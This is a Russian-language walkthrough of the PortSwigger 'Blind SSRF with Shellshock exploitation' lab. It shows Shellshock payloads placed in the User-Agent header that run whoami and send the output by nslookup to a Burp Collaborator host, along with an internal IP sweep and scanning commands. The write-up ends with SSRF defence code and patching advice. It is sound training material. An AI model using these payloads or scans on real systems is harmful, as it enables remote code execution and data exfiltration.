





## Lab: Blind SSRF with Shellshock exploitation

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SSRF  
**Сложность:** Expert  
**Инструмент:** Burp Suite Professional (Collaborator + Intruder)  
**Дата:** 2025-07-17  

---

## TL;DR
Аналитический модуль делает запрос по URL из заголовка `Referer`.
Через перебор диапазона `192.168.0.X:8080` найден внутренний CGI сервер
уязвимый к Shellshock. Shellshock payload в заголовке `User-Agent`
выполнил команду `whoami` на внутреннем сервере и передал результат
через DNS запрос на Burp Collaborator.

---

## Используемые техники

| Техника | Описание |
|---|---|
| Blind SSRF | Запрос через Referer без видимого ответа |
| Перебор внутренней сети | Intruder для поиска нужного IP |
| Shellshock (CVE-2014-6271) | RCE через переменные окружения bash |
| DNS exfiltration | Вывод данных через DNS субдомен |
| Burp Collaborator | Получение out-of-band взаимодействий |

---

## Теория

### Как связаны CGI и Shellshock

CGI (Common Gateway Interface) — стандарт запуска программ на сервере
в ответ на HTTP запрос. CGI конвертирует HTTP заголовки
в переменные окружения и передаёт их bash скрипту:

```
HTTP запрос:
User-Agent: Mozilla/5.0

CGI конвертирует:
HTTP_USER_AGENT=Mozilla/5.0

Bash скрипт читает $HTTP_USER_AGENT
```

Shellshock — баг в bash (CVE-2014-6271). При инициализации bash
читает переменные окружения и если находит определение функции —
выполняет **код после неё**:

```bash
# Shellshock payload:
() { :; }; /usr/bin/whoami
# bash импортирует функцию () { :; }
# и дополнительно выполняет: /usr/bin/whoami  ← это баг
```

### DNS exfiltration

Blind SSRF не возвращает ответ — данные выводятся через DNS:

```bash
() { :; }; /usr/bin/nslookup $(whoami).abc123.burpcollaborator.net
# $(whoami) → peter
# nslookup делает DNS запрос на: peter.abc123.burpcollaborator.net
# Collaborator логирует запрос — ты видишь имя пользователя
```

### Полная цепочка атаки

```
Ты → GET /product?id=1
     Referer: http://192.168.0.X:8080
     User-Agent: () { :; }; nslookup $(whoami).abc123.collaborator.net
          ↓
Сервер аналитики читает Referer
Делает запрос на http://192.168.0.X:8080
Передаёт User-Agent из оригинального запроса
          ↓
Внутренний CGI сервер получает запрос
HTTP_USER_AGENT = Shellshock payload
Bash выполняет: nslookup $(whoami).abc123.collaborator.net
          ↓
DNS запрос: peter.abc123.burpcollaborator.net
          ↓
Collaborator логирует → ты видишь имя пользователя = peter
```

---

## Разведка

### Шаг 1 — Установка Collaborator Everywhere

В Burp Suite Professional установила расширение
**Collaborator Everywhere** из BApp Store.
Добавила домен лабы в Target Scope.

Расширение автоматически вставляет Collaborator payload
во все заголовки всех запросов в scope — для обнаружения
где сервер обрабатывает пользовательские заголовки.



### Шаг 2 — Обнаружение SSRF через Referer

Открыла страницу товара. В Collaborator вкладке нажала **Poll now** —
увидела HTTP взаимодействие инициированное сервером через `Referer`.

В теле HTTP запроса на Collaborator виден `User-Agent` строки —
это значит что сервер аналитики передаёт User-Agent
при своих запросах. Это вектор для Shellshock.



### Шаг 3 — Подготовка Shellshock payload

В Collaborator вкладке сгенерировала уникальный субдомен.
Собрала Shellshock payload:

```bash
() { :; }; /usr/bin/nslookup $(whoami).abc123xyz.burpcollaborator.net
```

---

## Эксплуатация

### Шаг 4 — Настройка Intruder

Отправила запрос страницы товара в **Intruder**.
Внесла два изменения:

**1. Заменила User-Agent на Shellshock payload:**
```http
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).abc123xyz.burpcollaborator.net
```

**2. Заменила Referer на внутренний диапазон с позицией для перебора:**
```http
Referer: http://192.168.0.§1§:8080
```



### Шаг 5 — Настройка payload для перебора IP

В разделе Payloads выбрала тип **Numbers**:

```
From: 1
To:   255
Step: 1
```

Intruder отправит 255 запросов — перебирая все IP
в диапазоне `192.168.0.1-255`.

### Шаг 6 — Запуск атаки

Запустила атаку. Все ответы выглядят одинаково — это blind SSRF,
сервер не возвращает результат выполнения команды напрямую.

Результат нужно смотреть в Collaborator, не в Intruder.



### Шаг 7 — Получение результата через Collaborator

После завершения атаки перешла на вкладку **Collaborator**
→ нажала **Poll now**.

Появился DNS запрос вида:
```
peter.abc123xyz.burpcollaborator.net
```

Субдомен перед первой точкой — это результат выполнения `whoami`
на внутреннем сервере. Имя OS пользователя: `peter`.



### Шаг 8 — Решение лабы

Ввела найденное имя пользователя в форму решения лабы.


---

## Почему данные пришли через DNS а не HTTP

Внутренний сервер находится в изолированной сети —
прямые HTTP запросы наружу могут быть заблокированы файрволом.
Но DNS запросы часто разрешены даже в закрытых сетях
(без DNS сервер не работает). Поэтому DNS exfiltration
работает там где HTTP exfiltration заблокирован.

```
HTTP запрос наружу  →  файрвол блокирует  ✗
DNS запрос          →  файрвол пропускает ✓
```

---

## Обнаружение CGI серверов

```bash
# Nikto — специализируется на CGI
nikto -h https://target.com

# ffuf — перебор CGI путей
ffuf -u https://target.com/FUZZ \
     -w /usr/share/wordlists/dirb/common.txt \
     -e .cgi,.pl,.sh

# Nmap — проверка Shellshock
nmap --script http-shellshock target.com

# Time-based проверка через Burp Repeater
User-Agent: () { :; }; sleep 10
# Если ответ задержался на 10 сек — Shellshock подтверждён
```

---

## Итог

Комбинация Blind SSRF + Shellshock + DNS exfiltration позволила:
- Провести разведку внутренней сети через перебор IP
- Найти уязвимый CGI сервер
- Выполнить команду на внутреннем сервере
- Вытащить данные через DNS минуя файрвол

Ни один из этапов не дал прямого видимого ответа —
вся атака полностью out-of-band через Burp Collaborator.

---

## Защита

```python
# 1. Валидация URL перед запросом (защита от SSRF)
from urllib.parse import urlparse
import ipaddress, socket

def is_safe_url(url: str) -> bool:
    parsed = urlparse(url)
    try:
        ip = ipaddress.ip_address(
            socket.gethostbyname(parsed.hostname)
        )
        if ip.is_private or ip.is_loopback:
            return False
    except Exception:
        return False
    return True

# 2. Не передавать пользовательские заголовки
#    во внутренние запросы (защита от Shellshock)
import requests

def safe_analytics_request(referer: str):
    if not is_safe_url(referer):
        return
    # Используем только свои заголовки — не передаём User-Agent пользователя
    requests.get(referer, headers={
        'User-Agent': 'AnalyticsBot/1.0'  # фиксированный User-Agent
    }, allow_redirects=False)
```

Дополнительно:
- Обновить bash до версии без Shellshock
  (`bash --version` → должна быть >= 4.3 patch 25)
- Отказаться от CGI в пользу современных технологий
  (PHP-FPM, uWSGI, Gunicorn)
- Ограничить исходящий DNS трафик с внутренних серверов
  через DNS firewall — блокировать запросы на внешние домены
- Не передавать заголовки пользовательского запроса
  в серверные аналитические запросы